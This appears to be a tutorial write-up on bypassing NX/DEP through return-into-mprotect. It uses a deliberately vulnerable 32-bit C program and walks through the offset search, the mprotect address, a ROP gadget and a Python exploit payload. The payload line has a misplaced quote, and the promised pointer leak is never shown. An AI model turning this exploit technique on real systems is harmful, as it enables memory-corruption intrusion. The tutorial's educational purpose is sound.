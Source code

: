 ## ROP : pointer leaking + return-into-mprotect()

- - -

#### We are in the era of high complexity to bypass mitigation against memory corruption.

**Ret2mprotect** is an elegant way to bypass mitigation like **NX/DEP** by using ```mprotect()``` to set memory protection.

I assume that you are confortable with x86 stack-based overflow, ASM and shellcode.

Let's take a vanilla sample :

```
#include<stdio.h>
#include<stdlib.h>

int main() {
    char name[512];
    fgets(name, 1024, stdin);
    printf("Hello %s", name);
    return 0;
}
```

Compile with explicit *noexecutable stack* flag.

```
$ gcc -m32 pwnme.c -o pwnme -znoexecstack

$ file pwnme exploitme: ELF 32-bit LSB executable, Intel 80386, version 1
(SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.26,
BuildID[sha1]=0x19883d935e336675dd19ceb894dc09fd15e5903c, not stripped
```

Basically, same methodology for any x86 stack-based overflow by creating a unique pattern (I use *metasploit*).

We will override ```EIP``` at ```offset 524```.

```
$ /usr/share/metasploit-framework/tools/pattern_create.rb 999 > /tmp/in

$ gdb ~/pwnme -q
gdb-peda$ r < /tmp/in
Stopped reason: SIGSEGV 0x35724134 in ?? ()

$ /usr/share/metasploit-framework/tools/pattern_offset.rb 0x35724134
[*] Exact match at offset 524
```

Our stack begin at ```0xfffdd000``` and have a size of ```0x21000```.

```
gdb-peda$ vmmap
Start      End        Perm  Name
0xfffdd000 0xffffe000 rw-p  [stack]
```

Assuming that **ASLR** is disabled.

The address of ```mprotect()``` is ```0xf7f2d2e0```

```
gdb-peda$ p mprotect $1 = {<text variable, no debug info>} 0xf7f2d2e0 <mprotect>
```

The manual of ```mprotect()``` give us the signature of the function.

```
$ man mprotect

NAME mprotect - set protection on a region of memory
SYNOPSIS #include <sys/mman.h> int mprotect(void *addr, size_t len, int prot);
```

Thus we know which argument to push.
It should look like this : ```mprotect(0xfffdd000, 0x21000, 0x7);```

```
gdb-peda$ searchmem CC 0xfffdd000 0xffffe000
Searching for 'cc' in range: 0xfffdd000 - 0xffffe000
0xffffd2c0 --> 0xcccccccc [stack] : 0xffffd2c1 --> 0xcccccccc [stack] :
0xffffd2c2 --> 0xcccccccc [stack] : 0xffffd2c3 --> 0xcccccccc [stack] :
0xffffd2c4 --> 0xcccccccc [stack] : 0xffffd2c5 --> 0xcccccccc [stack] :
0xffffd2c6 --> 0xcccccccc [stack] : 0xffffd2c7 --> 0xcccccccc [stack] :
```

Gogo Gadget. :o)

```
gdb-peda$ ropgadget
pop3ret = 0x8048882
```

Finally.

```
python -c "
    print'\xCC' * 524         # CC is the opcode for SIGTRAP
    +'\xe0\xd2\xf2\xf7'       # address of mprotect()
    +'\x82\x88\x04\x08'       # pop3ret cleaning the stack layout
    +'\x00\xd0\xfd\xff'       # address of the stack
    +'\x00\x10\x02\x00'       # size of the stack
    +'\x07\x00\x00\x00'"      # flag read/write/execute
    +'\xc0\xd2\xff\xff'       # payload on the stack ;)
```

After calling mprotect you can notice the execution flag on the stack.

```
gdb-peda$ vmmap
Start      End        Perm  Name
0xfffdd000 0xffffe000 rwxp	[stack]
```

@tfairane greetz @barrebas
